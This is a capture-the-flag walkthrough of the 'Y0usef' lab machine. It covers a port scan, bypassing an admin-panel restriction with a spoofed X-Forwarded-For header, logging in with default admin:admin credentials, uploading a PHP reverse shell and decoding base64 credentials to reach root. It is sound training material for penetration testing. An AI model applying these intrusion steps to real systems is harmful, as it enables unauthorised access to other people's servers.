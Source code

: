 ```yaml
---
categories: [Proving Grounds Play]
tags: [PrivEsc]
---
```


Lets check the Victim Machine IP Address ⤵️

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled.png)

```
 IP : 10.0.2.39
```

## Port Scan Results ⤵️

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/y0usef]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.39
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 21:41 IST
Nmap scan report for 10.0.2.39
Host is up (0.00054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d8e0998c76f186a3ce09c819a41dc7e1 (DSA)
|   2048 82b020bc04ea3fc2cf73c3d4fab54b47 (RSA)
|   256 034db0704dcf5a4a87c3a5ee84ccaacc (ECDSA)
|_  256 64cdd0af6e0d201301963b8d163ad61b (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Ubuntu)
MAC Address: 08:00:27:9F:07:8D (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%202.png)

Now with Directory Listing I got a directory named as `/administrator/` with 301 status .

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%204.png)

Now with burpsuite I see no redirect sites so lets add one [localhost](http://localhost) as redirect ⤵️

`X-Forwarded-For: localhost`

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%205.png)

Now lets forward this request ➡️

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%206.png)

Now I tried `admin : admin` and I got in ➡️

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%207.png)

Now let’s upload our reverse shell file ⬇️

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%208.png)

Now lets load the url ⬇️

> [http://10.0.2.39/adminstration/upload/files/1682664347shell.php](http://10.0.2.39/adminstration/upload/files/1682664347shell.php)
> 

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%209.png)

```bash
www-data@yousef-VirtualBox:/home$ cat user.txt
cat user.txt
c3NoIDogCnVzZXIgOiB5b3VzZWYgCnBhc3MgOiB5b3VzZWYxMjM=
www-data@yousef-VirtualBox:/home$

Attackers Machine >>

┌──(kali㉿kali)-[~/Downloads/Proving_Ground/y0usef]
└─$ echo "c3NoIDogCnVzZXIgOiB5b3VzZWYgCnBhc3MgOiB5b3VzZWYxMjM=" | base64 -d
ssh : 
user : yousef 
pass : yousef123
```

Lets see yousef user is capable of ⤵️

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%2010.png)

![Untitled](/Vulnhub-Files/img/Y0usef/Untitled%2011.png)

```bash
root@yousef-VirtualBox:/root# cat root.txt
cat root.txt
WW91J3ZlIGdvdCB0aGUgcm9vdCBDb25ncmF0dWxhdGlvbnMgYW55IGZlZWRiYWNrIGNvbnRlbnQgbWUgdHdpdHRlciBAeTB1c2VmXzEx
root@yousef-VirtualBox:/root#

Attackers Machine >>

┌──(kali㉿kali)-[~/Downloads/Proving_Ground/y0usef]
└─$ echo "WW91J3ZlIGdvdCB0aGUgcm9vdCBDb25ncmF0dWxhdGlvbnMgYW55IGZlZWRiYWNrIGNvbnRlbnQgbWUgdHdpdHRlciBAeTB1c2VmXzEx" | base64 -d
You've got the root Congratulations any feedback content me twitter @y0usef_11
```